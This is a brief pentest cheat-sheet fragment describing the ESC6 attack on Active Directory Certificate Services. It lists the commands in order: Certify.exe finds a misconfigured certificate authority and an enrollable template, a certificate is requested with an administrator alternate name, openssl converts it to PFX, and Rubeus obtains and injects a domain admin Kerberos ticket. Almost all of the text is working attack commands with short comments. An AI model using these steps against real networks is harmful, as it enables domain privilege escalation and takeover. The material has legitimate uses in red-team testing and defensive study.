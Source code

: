```powershell
```

#### ESC6
```powershell
# Check if the CA has EDITF_ATTRIBUTESUBJECTALTNAME2. This means that we can request a certificate for ANY user 
#   from a template that allow enrollment for normal or low privileged users.
C:> Certify.exe cas
#  Find this ->> [!] UserSpecifiedSAN : EDITF_ATTRIBUTESUBJECTALTNAME2 set, enrollees can specify Subject Alternative Names!

# Find template where we have rights for enrollment
C:> Certify.exe find
#  Find this ->> Enrollment Rights : dcorp\<group or user> S-1-5-21-1874506631-3219952063-538504511-1116
#            ->>  msPKI-Certificates-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
C:> Certify.exe find /clientauth  <-- Can get the same

# Request certificate for alternate DA
C:> Certify.exe request /ca:<CA_name> /template:"<template_name>" /altname:administrator

# Convert to PFX
C:> openssl.exe pkcs12 -in <in_file>.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" 
                -export -out <out_file>.pfx

# Request TGT aS DOMAIN ADMIN
c:> Rubeus.exe asktgt /user:administrator /certificate:<out_file_PREVIOUS_STEP>.pfx 
                      /password:<pass_previous_step> /ptt
```
